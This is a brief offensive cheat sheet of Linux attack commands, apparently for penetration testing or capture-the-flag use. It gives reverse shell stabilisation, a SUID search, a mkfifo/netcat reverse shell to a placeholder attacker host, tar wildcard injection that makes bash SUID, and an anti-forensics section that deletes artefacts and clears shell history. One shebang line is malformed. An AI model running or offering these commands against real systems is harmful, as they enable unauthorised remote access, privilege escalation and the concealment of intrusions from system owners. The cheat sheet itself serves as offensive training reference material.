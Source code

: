 ## Reverse Shell Stabilization
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
reset
```
## SUID search
```
find / -type f -perm -u=s 2>/dev/null
```
## Reverse Shell alternative (assuming nc exists)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP ATTACKER-PORT >/tmp/f
```

## Wildcard Injection - exploitation
```
printf '#/!bin/bash\nchmod +s /bin/bash' > shell.sh    OR
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/shell.sh    

echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
## Wildcard Injection - erasing tracks
```
rm -- --checkpoint*
rm -- "--checkpoint* "
rm shell.sh

[SESSION ONLY] history -c 
clear ~/.bash_history
```
